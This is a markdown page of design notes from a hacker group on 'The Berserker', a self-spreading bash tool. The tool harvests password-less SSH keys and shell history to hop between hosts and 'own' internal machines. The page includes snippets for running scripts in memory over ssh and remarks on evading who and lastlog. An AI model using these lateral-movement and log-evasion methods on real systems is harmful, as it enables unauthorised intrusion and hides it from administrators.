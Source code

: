 ```yaml
---
layout: default
---
```


Random notes on how [The Berserker](../) works.

***A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hirachical tree of reachable hosts***


### Executive Summary
[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no inbetween.

### General
The Berserker looks for any password-less private ssh-key in ```~/.ssh``` and then gathers information from the User's shell history (```~/.bash_history```, ```.zsh_history``` and ```~/.history```) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues do do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User ```alice``` starts The Berserker on host ```Earth``` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that ```alice``` frequently connects to ```Mars``` (as alice) and ```Jupiter``` (as root). The Berserker first connects to ```Mars``` and executes itself on ```Mars```. Let's assume The Berserker finds no further ssh-keys on ```Mars``` and so it will not spread beyond ```Mars```. Next it connects from ```Earth``` to ```Jupiter```. It's a root login to ```Jupiter``` and The Berserker finds many ssh-keys from various users. One such user is ```bob``` who frequently connects to ```Uranus``` and from there to ```Pluto```. Ultimately The Berserker will get to ```Pluto``` via a long ssh chain from ```Earth```->```Jupiter```->```Uranus```->```Pluto```.

At this point the educated reader will realise that The Berserker is *deep penetrating* ```Uranus```, e.g. ```Uranus``` gets owned even if firewalled or not being accessible from the Internet (but accessible from ```Jupiter```).

Berseker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to ```Earth``` (the *origin* where The Berserker started).

### Bash In-Memory execution
Bash has this tremendous ability to execute a script from memory and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh -Tn user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named ```e.sh```.

1. Slurp the content into the variable ```$S``` after converting all ```'``` to ```'"'"'```. That's a bit freaky but hold your beer.

1. I use the hex notation (```\x27```) of ```'``` here or otherwise it would look rather complicated (```sed``` needs the ```'``` escaped so it is double-escaping time): ```S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"```. Most readers would commit suicide at this point. This is just to escape ```'``` correctly so that it can be passed to ```ssh``` as a command via a variable (```SCRIPT='$S'```) without interfering with the ```'``` around the ```$S```.

1. The ```ssh``` parameter ```-T``` stops the host from allocating a PTY but also stops the session from showing up in ```who``` and ```lastlog```. 

1. The long string ```export SCRIPT='$S'; bash -c \"\$SCRIPT\"``` is passed as a command to ```ssh``` to execute on the remote host. Note that the ```$``` in ```\"\$SCRIPT\"``` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitue ```$SCRIPT```. This is only needed because The Berserker needs to access the source of its own script (now stored in ```$SCRIPT``` to spread to further hosts). Otherwise ```bash -c '$S'``` would work.

At this point no data is written to the target's host harddrive. All is kept in memory.

### Bash Command line parsing

There is no efficient way to convert a command line string from ```~/.bash_history``` to an array in bash. The programm ```xargs``` comes to the rescue but it can only execute another programm with the command line string read from stdin. So we used ```xargs``` to call ```bash -c``` and output each command line argument in a separate line and then convert this into a bash array:
```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable ```line``` now contains
```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note that the ```eval eval``` is needed. The first convert the ```${#}``` to the integer number of arguments passed to the bash by ```xargs``` and the second ```eval``` resolves the ```~/``` to the absolute directory name.

That format can now easily be split into an array like so:
```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```
 * Note how the *string* ```MyArray``` is passed as a function parameter (followed by the ssh command). Inside the function we use ```eval``` on that string to 'turn' the string-name (```MyArray```) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

### Bash stderr and $? catching

The Berserker needs to check the error output of ```ssh``` _and_ also needs the exit-code of ```ssh```. The only way to do this in bash is to play filedescriptor bonanza:
```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "Output ret=$ret err=$err"
```
* The ```echo 1>&2 "Hello-STDERR";``` generates some test output to STDERR.
* The ```exit 123;``` is some test exit code (123).

The output is ```Output ret=123 err=Hello-STDERR```.

### If you are reading this...

If you made it all the way to here then you are the type of person we like to speak to more. Join us on [Telegram](https://t.me/thcorg).

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


